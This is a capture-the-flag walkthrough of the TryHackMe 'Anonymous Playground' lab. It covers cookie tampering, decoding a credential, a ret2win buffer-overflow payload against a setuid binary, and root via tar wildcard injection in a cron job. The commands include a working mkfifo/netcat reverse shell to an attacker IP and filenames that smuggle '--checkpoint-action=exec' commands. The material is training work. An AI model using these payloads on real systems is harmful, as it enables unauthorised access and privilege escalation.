

# TryHackMe-Anonymous Playground

**Scope:**

- Binary Buffer Overflow
- Wildcard Manipulation

**Keywords:**

- Cookie Manipulation
- Decoding Secret
- Shell Commands
- SSH File Transfer
- Binary Analysis
- Buffer Overflow Approaches
- Wildcard Manipulation
- r2
- readelf

**Main Commands:**

- `nmap -sT -sC -sV -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `curl -iLX GET -D response.txt http://anonymousplayground.thm/zYdHuAKjP`
- `curl -iL -s -k -X $'GET' -H $'Host: anonymousplayground.thm' -b $'access=granted' $'http://anonymousplayground.thm/zYdHuAKjP/'`
- `curl -is http://anonymousplayground.thm/operatives.php | grep '<li>' | awk -F '>' '{print $2}' | tr '<' ' ' | awk '{print $1}' | tee anonymoususers.txt`
- `ssh -o MACs=hmac-sha2-256 magna@anonymousplayground.thm -p 22`
- `scp -o MACs=hmac-sha2-256 magna@anonymousplayground.thm:hacktheworld /root/Desktop/CyberLearningFramework/anonymousplayground/hacktheworld`
- `r2 -d hacktheworld`
- `python2.7 -c "print 'a' *100" | ./hacktheworld`
- `for i in {1..100} ;do echo $i ;python -c "print('A'*$i)" | ./hacktheworld ;done`
- `python2.7 -c "print 'a' *72" | ./hacktheworld`
- `printf '%x\n' 72`
- `readelf -a hacktheworld | grep -i call_bash`
- `echo "0000000000400657" | sed 's/../\\x&/g’`
- `echo -ne '\x00\x00\x00\x00\x00\x40\x06\x57' | xxd -p | tac -rs .. | sed 's/\(..\)/\\x\1/g'`
- `python2.7 -c "print 'a'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00'" | ./hacktheworld`
- `(python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat) | ./hacktheworld`

**System Commands:**

- `uname -a`
- `whoami`
- `dpkg --version`
- `file hacktheworld`
- `i`
- `aaaa`
- `afl`
- `pdf @main`
- `s sym.call_bash`
- `pdf`
- `iz`
- `dc`
- `pxl 4 @ 0x7ffff5e81288`
- `(python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat) | ./hacktheworld`
- `python3 -c "import pty;pty.spawn('/bin/bash')”`
- `cat /etc/crontab`
- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21232 >/tmp/f" > revshell.sh`
- `echo "chmod u+s /usr/bin/find" > findexp.sh`
- `echo "" > "--checkpoint-action=exec=sh revshell.sh"`
- `echo "" > --checkpoint=1`

### Laboratory Environment

[Anonymous Playground](https://tryhackme.com/r/room/anonymousplayground)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sT -sC -sV -T4 -A -O -oN nmap_result.txt -Pn $target_ip`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proving Grounds
| http-robots.txt: 1 disallowed entry 
|_/zYdHuAKjP
```

> **HTTP Port Check & Cookie Manipulation**
> 

`curl -iLX GET -D response.txt http://anonymousplayground.thm/zYdHuAKjP`

```bash
HTTP/1.1 301 Moved Permanently
Date: Sun, 29 Sep 2024 13:23:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: http://anonymousplayground.thm/zYdHuAKjP/
Content-Length: 338
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Sun, 29 Sep 2024 13:23:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: access=denied; expires=Tue, 29-Oct-2024 13:23:07 GMT; Max-Age=2592000; path=/
Vary: Accept-Encoding
Content-Length: 1206
Content-Type: text/html; charset=UTF-8

<!doctype html>

<html lang="en">

[REDACTED] - MORE
                <p class='text-center'>You have not been <b>granted</b> access. <br /> Access denied. </div>
                </div>
    </div>
</body>
```

`cat response.txt`

```bash
HTTP/1.1 301 Moved Permanently
Date: Sun, 29 Sep 2024 13:23:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: http://anonymousplayground.thm/zYdHuAKjP/
Content-Length: 338
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Sun, 29 Sep 2024 13:23:07 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: access=denied; expires=Tue, 29-Oct-2024 13:23:07 GMT; Max-Age=2592000; path=/
Vary: Accept-Encoding
Content-Length: 1206
Content-Type: text/html; charset=UTF-8
```




**RESULT:**

```bash
hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN
```

`curl -iL -s -k -X $'GET' -H $'Host: anonymousplayground.thm' -b $'access=granted' $'http://anonymousplayground.thm/zYdHuAKjP/'`

```bash
HTTP/1.1 200 OK
Date: Sun, 29 Sep 2024 13:29:16 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: access=denied; expires=Tue, 29-Oct-2024 13:29:16 GMT; Max-Age=2592000; path=/
Vary: Accept-Encoding
Content-Length: 1379
Content-Type: text/html; charset=UTF-8

[REDACTED] - MORE
                <p class='text-center'>Access granted. <br />
                Well done getting this far.  But can you go further? <br /> <br />
                <span style='font-size: 30px;'>hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN</span>
                </p>
            </div>
        </div>
    </div>
</body>
```

> **Endpoint Control & Getting Usernames Phase**
> 


`curl -is http://anonymousplayground.thm/operatives.php | grep '<li>' | awk -F '>' '{print $2}' | tr '<' ' ' | awk '{print $1}' | tee anonymoususers.txt`

```bash
themayor
spooky
darkstar
akaelite
ninja
w0rmer
nameless0ne
0day
szymex
ma1ware
paradox
bee
iamwill
jammy

[REDACTED] - MORE
```

> **Decoding Secret with Raw Script**
> 

`nano decodingsecret.py`

```bash
#!/usr/bin/python3

encoded_1 = "hEzAdCfHzA"
encoded_2 = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN" 
all_alpha = "" # String of all lowercase english alphabets

for i in range(ord('a'),ord('z')+1):
 all_alpha += chr(i)

print("Encoded => " + encoded_1)
print("All alphabets => " + all_alpha)
print("Decoded => ",end="")

# This loop iterates over all PAIRS of the alphabets, ignoring the '::'
for i in range(0,len(encoded_1),2):
 first_char = encoded_1[i] # Since the first char in all pairs is lowercase
 second_char = encoded_1[i+1].lower() # Since the second char in all pairs is uppercase
 
 if first_char == ':':
  print(":",end="")
  continue
 
 first_alpha_position = ord(first_char) - ord('a') + 1 
 second_alpha_position = ord(second_char) - ord('a') + 1 
 
 decoded_alpha_position = (first_alpha_position + second_alpha_position) % 26 # The modulo operation takes care of the "imagine the list of alphabets arranged in a circular loop" part I was talking about
 
 decoded_alpha = all_alpha[decoded_alpha_position - 1] # Array indexes start at 0, yes?
 print(decoded_alpha,end="")
print("")
```

`python3 decodingsecret.py`

```bash
Encoded => hEzAdCfHzA
All alphabets => abcdefghijklmnopqrstuvwxyz
Decoded => magna
```

`nano decodingsecretscript.py`

```bash
#!/usr/bin/python3

encoded = "hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
all_alpha = "" # String of all lowercase english alphabets

for i in range(ord('a'),ord('z')+1):
	all_alpha += chr(i)

print("Encoded => " + encoded)
print("All alphabets => " + all_alpha)
print("Decoded => ",end="")

# This loop iterates over all PAIRS of the alphabets, ignoring the '::'
for i in range(0,len(encoded),2):
	first_char = encoded[i] # Since the first char in all pairs is lowercase
	second_char = encoded[i+1].lower() # Since the second char in all pairs is uppercase
	
	if first_char == ':':
		print(":",end="")
		continue
	
	first_alpha_position = ord(first_char) - ord('a') + 1 
	second_alpha_position = ord(second_char) - ord('a') + 1 
	
	decoded_alpha_position = (first_alpha_position + second_alpha_position) % 26 # The modulo operation takes care of the "imagine the list of alphabets arranged in a circular loop" part I was talking about
	
	decoded_alpha = all_alpha[decoded_alpha_position - 1] # Array indexes start at 0, yes?
	print(decoded_alpha,end="")
print("")
```

`python3 decodingsecretscript.py`

```bash
Encoded => hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN
All alphabets => abcdefghijklmnopqrstuvwxyz
Decoded => magna:magnaisanelephant
```

> **SSH Connection & Internal File Enumeration Phase**
> 

`ssh -o MACs=hmac-sha2-256 magna@anonymousplayground.thm -p 22`

```bash
magna@anonymousplayground.thm's password: 

magna@anonymous-playground:~$ whoami
magna
magna@anonymous-playground:~$ id
uid=1001(magna) gid=1001(magna) groups=1001(magna)
magna@anonymous-playground:~$ pwd
/home/magna
magna@anonymous-playground:~$ ls -lsa
total 64
 4 drwxr-xr-x 7 magna  magna  4096 Jul 10  2020 .
 4 drwxr-xr-x 5 root   root   4096 Jul  4  2020 ..
 0 lrwxrwxrwx 1 root   root      9 Jul  4  2020 .bash_history -> /dev/null
 4 -rw-r--r-- 1 magna  magna   220 Jul  4  2020 .bash_logout
 4 -rw-r--r-- 1 magna  magna  3771 Jul  4  2020 .bashrc
 4 drwx------ 2 magna  magna  4096 Jul  4  2020 .cache
 4 drwxr-xr-x 3 magna  magna  4096 Jul  7  2020 .config
 4 -r-------- 1 magna  magna    33 Jul  4  2020 flag.txt
 4 drwx------ 3 magna  magna  4096 Jul  4  2020 .gnupg
12 -rwsr-xr-x 1 root   root   8528 Jul 10  2020 hacktheworld
 4 drwxrwxr-x 3 magna  magna  4096 Jul  4  2020 .local
 4 -rw-r--r-- 1 spooky spooky  324 Jul  6  2020 note_from_spooky.txt
 4 -rw-r--r-- 1 magna  magna   807 Jul  4  2020 .profile
 4 drwx------ 2 magna  magna  4096 Jul  4  2020 .ssh
 4 -rw------- 1 magna  magna   817 Jul  7  2020 .viminfo
magna@anonymous-playground:~$ uname -a
Linux anonymous-playground 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
magna@anonymous-playground:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
magna@anonymous-playground:~$ 

```

> **File Transfer & Binary File Anaylsis**
> 

```bash
magna@anonymous-playground:~$ cat note_from_spooky.txt
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
magna@anonymous-playground:~$ file hacktheworld 
hacktheworld: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7de2fcf9c977c96655ebae5f01a013f3294b6b31, not stripped
magna@anonymous-playground:~$ 
```

`scp -o MACs=hmac-sha2-256 magna@anonymousplayground.thm:hacktheworld /root/Desktop/CyberLearningFramework/anonymousplayground/hacktheworld`

```bash
magna@anonymousplayground.thm's password: 
hacktheworld                                          100% 8528    11.4KB/s   00:00
```

`r2 -d hacktheworld`

```bash
[0x7f265515c810]> i
fd       3
file     /root/Desktop/CyberLearningFramework/anonymousplayground/hactheworld
size     0x7fffffffffffffff
humansz  8E

[REDACTED] - MORE

compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
nx       true
os       linux

[REDACTED] - MORE

[0x7f265515c810]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Finding and parsing C++ vtables (avrr)
[x] Skipping type matching analysis in debugger mode (aaft)
[x] Propagate noreturn information (aanr)
[x] Finding function preludes
[x] Enable constraint types analysis for variables

[0x7f265515c810]> afl
0x00400570    1 43           entry0
0x004005b0    4 42   -> 37   sym.deregister_tm_clones
0x004005e0    4 58   -> 55   sym.register_tm_clones
0x00400620    3 34   -> 29   sym.__do_global_dtors_aux
0x00400650    1 7            entry.init0
0x00400780    1 2            sym.__libc_csu_fini
0x00400784    1 9            sym._fini
0x00400657    1 129          sym.call_bash
0x00400510    1 6            sym.imp.puts
0x00400560    1 6            sym.imp.sleep
0x00400550    1 6            sym.imp.setuid
0x00400520    1 6            sym.imp.system
0x00400710    4 101          sym.__libc_csu_init
0x004005a0    1 2            sym._dl_relocate_static_pie
0x004006d8    1 56           main
0x00400530    1 6            sym.imp.printf
0x00400540    1 6            sym.imp.gets
0x004004e0    3 23           sym._init
0x7f2655146b30   66 1238 -> 1196 fcn.7f2655146b30
0x7f2655147290   52 920  -> 860  fcn.7f2655147290
0x7f2655147630   67 1493 -> 1446 fcn.7f2655147630
0x7f26551485e0   36 1010         fcn.7f26551485e0
0x7f2655148a40  449 9771 -> 9602 fcn.7f2655148a40
0x7f265514f460   59 1867 -> 1829 fcn.7f265514f460
0x7f2655150040  379 9075 -> 7311 fcn.7f2655150040
0x7f2655152c70   89 64837 -> 1526 fcn.7f2655152c70
0x7f26551569ab    1 18           fcn.7f26551569ab
0x7f26551542e0   28 4165 -> 584  fcn.7f26551542e0
0x7f265515ce60   26 522  -> 506  fcn.7f265515ce60

[0x7f265515c810]> pdf @main
            ; DATA XREF from entry0 @ 0x40058d
┌ 56: int main (int argc, char **argv);
│           ; var int64_t var_50h @ rbp-0x50
│           ; var int64_t var_44h @ rbp-0x44
│           ; var int64_t var_40h @ rbp-0x40
│           ; arg int argc @ rdi
│           ; arg char **argv @ rsi
│           0x004006d8      55             push rbp
│           0x004006d9      4889e5         mov rbp, rsp
│           0x004006dc      4883ec50       sub rsp, 0x50
│           0x004006e0      897dbc         mov dword [var_44h], edi    ; argc
│           0x004006e3      488975b0       mov qword [var_50h], rsi    ; argv
│           0x004006e7      488d3d1d0100.  lea rdi, str.Who_do_you_want_to_hack__ ; 0x40080b ; "Who do you want to hack? "
│           0x004006ee      b800000000     mov eax, 0
│           0x004006f3      e838feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x004006f8      488d45c0       lea rax, [var_40h]
│           0x004006fc      4889c7         mov rdi, rax
│           0x004006ff      b800000000     mov eax, 0
│           0x00400704      e837feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x00400709      b800000000     mov eax, 0
│           0x0040070e      c9             leave
└           0x0040070f      c3             ret

[0x7f265515c810]> s sym.call_bash
[0x00400657]> pdf
┌ 129: sym.call_bash ();
│           0x00400657      55             push rbp
│           0x00400658      4889e5         mov rbp, rsp
│           0x0040065b      488d3d360100.  lea rdi, str._nWe_are_Anonymous. ; 0x400798 ; "\nWe are Anonymous."
│           0x00400662      e8a9feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400667      bf01000000     mov edi, 1
│           0x0040066c      e8effeffff     call sym.imp.sleep          ; int sleep(int s)
│           0x00400671      488d3d330100.  lea rdi, str.We_are_Legion. ; 0x4007ab ; "We are Legion."
│           0x00400678      e893feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0040067d      bf01000000     mov edi, 1
│           0x00400682      e8d9feffff     call sym.imp.sleep          ; int sleep(int s)
│           0x00400687      488d3d2c0100.  lea rdi, str.We_do_not_forgive. ; 0x4007ba ; "We do not forgive."
│           0x0040068e      e87dfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400693      bf01000000     mov edi, 1
│           0x00400698      e8c3feffff     call sym.imp.sleep          ; int sleep(int s)
│           0x0040069d      488d3d290100.  lea rdi, str.We_do_not_forget. ; 0x4007cd ; "We do not forget."
│           0x004006a4      e867feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006a9      bf01000000     mov edi, 1
│           0x004006ae      e8adfeffff     call sym.imp.sleep          ; int sleep(int s)
│           0x004006b3      488d3d260100.  lea rdi, str._Message_corrupted_...Well...done. ; 0x4007e0 ; "[Message corrupted]...Well...done."
│           0x004006ba      e851feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006bf      bf39050000     mov edi, 0x539              ; 1337
│           0x004006c4      e887feffff     call sym.imp.setuid
│           0x004006c9      488d3d330100.  lea rdi, str._bin_sh        ; 0x400803 ; "/bin/sh"
│           0x004006d0      e84bfeffff     call sym.imp.system         ; int system(const char *string)
│           0x004006d5      90             nop
│           0x004006d6      5d             pop rbp
└           0x004006d7      c3             ret

[0x00400657]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000798 0x00400798 18  19   .rodata ascii \nWe are Anonymous.
1   0x000007ab 0x004007ab 14  15   .rodata ascii We are Legion.
2   0x000007ba 0x004007ba 18  19   .rodata ascii We do not forgive.
3   0x000007cd 0x004007cd 17  18   .rodata ascii We do not forget.
4   0x000007e0 0x004007e0 34  35   .rodata ascii [Message corrupted]...Well...done.
5   0x00000803 0x00400803 7   8    .rodata ascii /bin/sh
6   0x0000080b 0x0040080b 25  26   .rodata ascii Who do you want to hack? 

[0x00400657]> dc
Who do you want to hack? aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 si_pid=0 ret=0

[0x0040070f]> dr
rax = 0x00000000
rbx = 0x7ffff5e81398
rcx = 0x7f26551178e0
rdx = 0x00000000
r8 = 0x0107f7ae
r9 = 0x7f26550b2780
r10 = 0x00000004
r11 = 0x00000246
r12 = 0x00000000
r13 = 0x7ffff5e813a8
r14 = 0x7f2655174000
r15 = 0x00000000
rsi = 0x0107f770
rdi = 0x7f2655119720
rsp = 0x7ffff5e81288
rbp = 0x6161616161616161
rip = 0x0040070f
rflags = 0x00010202
orax = 0xffffffffffffffff

[0x0040070f]> pxl 4 @ 0x7ffff5e81288
- offset -       0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x7ffff5e81288  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa                                                                         
0x7ffff5e81298  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
0x7ffff5e812a8  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
0x7ffff5e812b8  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
[0x0040070f]> 

```

> **Binary Exploit & Buffer Overflow Phase**
> 

`python2.7 -c "print 'a' *100" | ./hacktheworld` 

```bash
zsh: done                python2.7 -c "print 'a' *100" | 
zsh: segmentation fault  ./hacktheworld
```

`for i in {1..100} ;do echo $i ;python -c "print('A'*$i)" | ./hacktheworld ;done`

```bash
Who do you want to hack? 2
Who do you want to hack? 3
Who do you want to hack? 4
Who do you want to hack? 5
Who do you want to hack? 6
Who do you want to hack? 7
Who do you want to hack? 8

[REDACTED] - MORE

Who do you want to hack? 57
Who do you want to hack? 58
Who do you want to hack? 59

[REDACTED] - MORE

Who do you want to hack? 70
Who do you want to hack? 71
Who do you want to hack? 72
73
74

[REDACTED] - MORE
```

`python2.7 -c "print 'a' *72" | ./hacktheworld`

```bash
zsh: done                python2.7 -c "print 'a' *72" | 
zsh: segmentation fault  ./hacktheworld
```

`printf '%x\n' 72`

```bash
48
```

`readelf -a hacktheworld | grep -i call_bash`

```bash
    50: 0000000000400657   129 FUNC    GLOBAL DEFAULT   13 call_bash
```

`echo "0000000000400657" | sed 's/../\\x&/g'`

```bash
\x00\x00\x00\x00\x00\x40\x06\x57
```

`echo -ne '\x00\x00\x00\x00\x00\x40\x06\x57' | xxd -p | tac -rs .. | sed 's/\(..\)/\\x\1/g'`

```bash
\x57\x06\x40\x00\x00\x00\x00\x00
```

`python2.7 -c "print 'a'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00'" | ./hacktheworld`

```bash
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
zsh: done                python2.7 -c "print 'a'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00'" | 
zsh: segmentation fault  ./hacktheworld
```

`(python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat) | ./hacktheworld`

```bash
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
```

```bash
magna@anonymous-playground:~$ (python3 -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat) | ./hacktheworld
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.

We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
id
uid=1337(spooky) gid=1001(magna) groups=1001(magna)
whoami
spooky
python3 -c "import pty;pty.spawn('/bin/bash')"
spooky@anonymous-playground:~$ pwd
pwd
/home/magna
spooky@anonymous-playground:~$ 

```

> **Privilege Escalation with Wildcard Manipulation**
> 

```bash
spooky@anonymous-playground:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
#
spooky@anonymous-playground:~$ 

```

`nc -nlvp 21232`

```bash
listening on [any] 21232 ...
```

```bash
spooky@anonymous-playground:~$ cd /home/spooky
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21232 >/tmp/f" > revshell.sh
spooky@anonymous-playground:/home/spooky$ ls
flag.txt  revshell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh revshell.sh"
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1

```

```bash
listening on [any] 21232 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.2.185] 34446
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/spooky
# 
```

> **Another Method for Privilege Escalation with find Binary**
> 

```bash
spooky@anonymous-playground:/home/spooky$ echo "chmod u+s /usr/bin/find" > findexp.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh findexp.sh"
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$ cd /bin
spooky@anonymous-playground:/bin$ bash -p
bash-4.4$ whoami
whoami
root
```

# Appendix

## Binary Buffer Overflow

<aside>
💡

A Binary Buffer Overflow occurs when more data is written to a fixed-length buffer (a block of memory) than the buffer can handle. This overflow of data can overwrite adjacent memory locations, potentially causing unpredictable behavior, system crashes, or even allowing an attacker to execute arbitrary code. Buffer overflow vulnerabilities are particularly dangerous in programs written in low-level languages like C and C++, which don't automatically check if data fits into the allocated buffer.

</aside>

## Wildcard Manipulation

<aside>
💡

Wildcard Manipulation refers to the exploitation of wildcard characters (such as *, ?, [], etc.) in command-line interfaces, scripting languages, or file systems to manipulate files, execute commands, or trigger unintended behavior. It is commonly seen in Unix-like operating systems, where wildcards are used to represent sets of files or directories. In some cases, Wildcard Manipulation can be leveraged by attackers to exploit vulnerabilities or bypass certain restrictions, especially when a program or script uses wildcards in an unsafe manner. When wildcards are used in an unsafe or unintended manner, they can be exploited by attackers to gain unintended control over a system.

</aside>